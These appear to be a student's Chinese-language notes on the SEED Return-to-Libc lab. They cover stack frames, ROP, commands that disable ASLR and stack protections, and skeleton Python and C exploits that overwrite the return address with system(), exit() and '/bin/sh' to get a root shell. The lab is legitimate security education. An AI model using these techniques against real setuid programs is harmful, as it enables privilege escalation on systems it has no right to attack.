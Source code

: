 # Return_to_Libc

## 知识点

1. **[question]**P93

2. **[question]**P96

3. **函数的序言**：函数开头处的代码，用于为函数准备栈和指针，

   ```assembly
   pushl %ebp			// 保存ebp值（它目前指向调用者的栈帧）
   movl %esp, %ebp		// 让ebp指向被调用者的栈帧
   subl $N, %esp		// 为局部变量预留空间
   ```

   **函数的后记**：函数末尾处的代码，用于恢复栈和寄存器到函数调用以前的状态。

   ```assembly
   movl %ebp, %esp		// 释放为局部变量开辟的栈空间 
   popl %ebp			// 让ebp指回调用者函数的栈帧
   ret					// 返回
   ```

4. **EBP**是当前函数的存取指针，即存储或者读取数时的指针基地址只是存取某时刻的栈顶指针,以方便对栈的操作,如获取函数参数、局部变量等；

   **ESP**就是当前函数的栈顶指针，一直指向栈顶的指针。

   **EIP**：寄存器里存储的是CPU下次要执行的指令的地址。也就是调用完fun函数后，让CPU知道应该执行main函数中的printf（"函数调用结束"）语句了。

5. **return_to_lib**中，函数结束时的返回地址不能随意，很可能导致程序崩溃，一个较好的办法是使用exit()函数。

6. **返回导向编程**（Return-Oriented Programming，ROP）：不一定要返回到一个已有函数，巧妙地将内存中的一些小的指令序列串起来，这些指令序列其实并不放在一起，但它们的最后一个指令都是return。

7. **void \*memset(void \*str, int c, size_t n)** 复制字符 c（一个无符号字符）到参数 str 所指向的字符串的前 n 个字符。

8. **gdb -q**：-quiet，退出，不打印介绍信息和版权信息，这些消息在批处理模式下也不打印

9. 程序名称的长度会影响所有的环境变量的地址

10. 

## 习题

## 实验

### Turning off countermeasures

- Address Space Randomization. `sudo sysctl -w kernel.randomize_va_space=0`

- The StackGuard Protection Scheme  `gcc -fno-stack-protector example.c`

- Non-Executable Stack.

  ```sh
  For executable stack:
  gcc -z execstack  -o test test.c
  For non-executable stack:
  gcc -z noexecstack  -o test test.c
  ```

  由于本实验室的目标是显示不可执行堆栈保护不起作用，因此您应该始终使用本实验室中的`-z noexecstack`选项编译程序。

- Configuring /bin/sh (Ubuntu 16.04 VM only). `sudo ln -sf /bin/zsh /bin/sh`

### The Vulnerable Program

关闭地址随机化，关闭StackGuard，打开不可执行栈，执行脆弱程序，出现段错误

![image-20211011130241366](D:\git_repository\computer_security\学习笔记\5 Return_to_Libc.assets\image-20211011130241366.png)

### Task 1: Finding out the addresses of libc functions

> ​		在Linux中，当程序运行时，libc库将加载到内存中。关闭内存地址随机化后，对于同一程序，库始终加载在同一内存地址中（对于不同的程序，libc库的内存地址可能不同）。因此，我们可以使用gdb之类的调试工具轻松找到system() 的地址。也就是说，我们可以调试目标程序retlib。即使该程序是root所有的Set-UID程序，我们仍然可以调试它，但特权将被删除（即，有效用户ID将与实际用户ID相同）。在gdb内部，我们需要键入run命令来执行目标程序一次，否则，库代码将无法加载。我们使用p命令（或print）打印出system() 和exit() 函数的地址（稍后需要exit() ）。
>
> ​		应该注意的是，即使对于同一个程序，如果我们将其从Set-UID程序更改为非Set-UID程序，libc库也可能不会加载到相同的位置。因此，当我们调试程序时，需要调试目标设置UID程序；否则，我们得到的地址可能不正确。

![image-20211011130140888](D:\git_repository\computer_security\学习笔记\5 Return_to_Libc.assets\image-20211011130140888.png)

### Task 2: Putting the shell string in the memory

> ​		我们的攻击策略是跳转到system() 函数，让它执行任意命令。因为我们希望得到一个shell提示符，所以希望system() 函数执行`/bin/sh`程序。因此，命令字符串`/bin/sh`必须首先放在内存中，我们必须知道它的地址（这个地址需要传递给system() 函数）。实现这些目标有很多方法；我们选择使用环境变量的方法。鼓励学生使用其他方法。
>
> ​		当我们从shell提示符执行程序时，shell实际上会生成一个子进程来执行程序，并且所有导出的shell变量都会成为子进程的环境变量。这为我们在子进程的内存中放入任意字符串创建了一种简单的方法。让我们定义一个新的shell变量MYSHELL，并让它包含字符串`/bin/sh`。通过以下命令，我们可以验证字符串是否进入子进程，并由在子进程内运行的env命令打印出来。
>
> ```shell
> export MYSHELL=/bin/sh
> env | grep MYSHELL
> MYSHELL=/bin/sh
> ```
>
> ​		我们将使用此变量的地址作为system（）调用的参数。使用以下程序可以轻松找到该变量在内存中的位置：
>
> ```c
> void main(){
>     char* shell =  getenv("MYSHELL");
>     if (shell)
>     	printf("%x\n", (unsigned int)shell);
> }
> ```
>
> ​		如果关闭地址随机化，您将发现打印出的地址相同。但是，当您运行脆弱程序retlib时，环境变量的地址可能与您通过运行上述程序获得的地址不完全相同；这样的地址甚至可以在更改程序名时更改（文件名中的字符数会有所不同）。好消息是，shell的地址将非常接近使用上述程序打印的内容。因此，您可能需要尝试几次才能成功。

注意头文件，运行结果如下：

![image-20211011130122030](D:\git_repository\computer_security\学习笔记\5 Return_to_Libc.assets\image-20211011130122030.png)

### Task 3: Exploiting the buffer-overflow vulnerability

> ​		我们已经准备好创建badfile的内容。由于内容涉及一些二进制数据（例如，libc函数的地址），我们可以使用C或Python进行构造。
>
> 使用Python。我们在下面提供了一个代码框架，剩下的基本部分供您填写。
>
> ```python
> #!/usr/bin/python3
> import sys
> 
> #Fill content with non-zero values
> content = bytearray(0xaa for i in range(300))
> 
> X = 0
> sh_addr = 0x00000000  # The address of "/bin/sh"
> content[X:X+4] = (sh_addr).to_bytes(4,byteorder=’little’)
> 
> Y = 0
> system_addr = 0x00000000  # The address of system()
> content[Y:Y+4] = (system_addr).to_bytes(4,byteorder=’little’)
> 
> Z = 0
> exit_addr = 0x00000000  # The address of exit()
> content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder=’little’)
> 
> Save content to a file
> 
> with open("badfile", "wb") as f:
> 	f.write(content)
> ```
>
> ​		您需要计算出这三个地址以及X、Y和Z的值。如果您的值不正确，您的攻击可能无法工作。在您的报告中，您需要描述如何确定X、Y和Z的值。或者向我们展示您的推理，或者，如果您使用试错法，则展示您的试验。
>
> 使用C语言。我们还为您提供了C代码的框架，剩下的基本部分供您填写。
>
> ```c
> /*exploit.c*/
> #include <stdlib.h>
> #include <stdio.h>
> #include <string.h>
> 
> int main(int argc, char**argv)
> {
> 	char buf[40];
> 	FILE*badfile;
> 
>     badfile = fopen("./badfile", "w");
>     /*You need to decide the addresses and
>     the values for X, Y, Z. The order of the following
>     three statements does not imply the order of X, Y, Z.
>     Actually, we intentionally scrambled the order.*/
>     *(long*) &buf[X] = some address ;  //  "/bin/sh" 💡
>     *(long*) &buf[Y] = some address ;  //  system()  💡
>     *(long*) &buf[Z] = some address ;  //  exit()    💡
> 
>     fwrite(buf, sizeof(buf), 1, badfile);
>     fclose(badfile);
>     
>     return 0；
> }
> ```
>
> ​		您需要在标有💡的行中找出地址，并找出存储这些地址的位置（即X、Y和Z的值）。如果您的值不正确，您的攻击可能无法工作。在您的报告中，您需要描述如何确定X、Y和Z的值。或者向我们展示您的推理，或者，如果您使用试错法，则展示您的试验。
>
> ​		完成上述程序后，编译并运行；这将生成badfile的内容。运行易受攻击的程序retlib。如果您的漏洞被正确实现，当函数bof() 返回时，它将返回到system() 函数，并执行`system（“/bin/sh”）`。如果易受攻击的程序以root权限运行，此时您可以获得root shell。
>
> ```shell
>  gcc -o exploit exploit.c
> ./exploit  // create the badfile
> ./retlib  // launch the attack by running the vulnerable program
> 
> <---- You’ve got a root shell!
> ```
>
> ​		**攻击变体1**：exit() 函数真的有必要吗？请尝试攻击，但不要在badfile中包含此函数的地址。再次发起攻击，报告并解释您的观察结果。
>
> ​		**攻击变体2**：攻击成功后，将retlib的文件名更改为其他名称，确保新文件名的长度不同。例如，您可以将其更改为OneWretlib。重复攻击（不更改badfile的内容）。你的攻击会成功吗？如果没有成功，请解释原因。



